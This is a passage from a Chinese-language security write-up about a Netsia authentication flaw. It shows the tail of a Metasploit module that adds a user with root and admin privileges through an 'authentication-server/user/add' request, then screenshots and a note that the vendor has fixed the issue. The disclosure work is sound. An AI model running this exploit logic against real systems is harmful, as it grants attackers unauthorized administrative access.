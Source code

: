 ```

                                      'uri' =&gt; normalize_uri(target_uri.path, 'authentication-server', 'user', 'add'),

                                 'cookie' =&gt; cookie,

                                 'data' =&gt; json_data

                                     `}`)

 

       if res.code == 200 and res.body.include? '"SUCCESS"'  

         print_good("Excellent! User #`{`datastore["USERNAME"]`}` was added successfully with root, admin and default privileges.")

         print_good("Username : #`{`datastore["USERNAME"]`}`")

         print_good("Password : #`{`datastore["PASSWORD"]`}`")

         break

       end

     end

  end

end
```

接下来，我们就可以使用Auxiliary模块来进行漏洞利用了：

[![](https://p5.ssl.qhimg.com/t01b163b5954506c761.png)](https://p5.ssl.qhimg.com/t01b163b5954506c761.png)[![](https://p3.ssl.qhimg.com/t0131e02d8dd75845b3.png)](https://p3.ssl.qhimg.com/t0131e02d8dd75845b3.png)<br>

[![](https://p5.ssl.qhimg.com/t01c80f3b6c5aea9226.png)](https://p5.ssl.qhimg.com/t01c80f3b6c5aea9226.png)



## 漏洞修复

Netsia现已修复了这个漏洞，如果没有授权的cookie，则无法再发送此请求。即使您是授权的管理员用户，也会看到会话cookies被过滤掉。

[![](https://p3.ssl.qhimg.com/t015d9c02453391027a.png)](https://p3.ssl.qhimg.com/t015d9c02453391027a.png)

[![](https://p2.ssl.qhimg.com/t01a8768a17d0f7b79d.png)](https://p2.ssl.qhimg.com/t01a8768a17d0f7b79d.png)
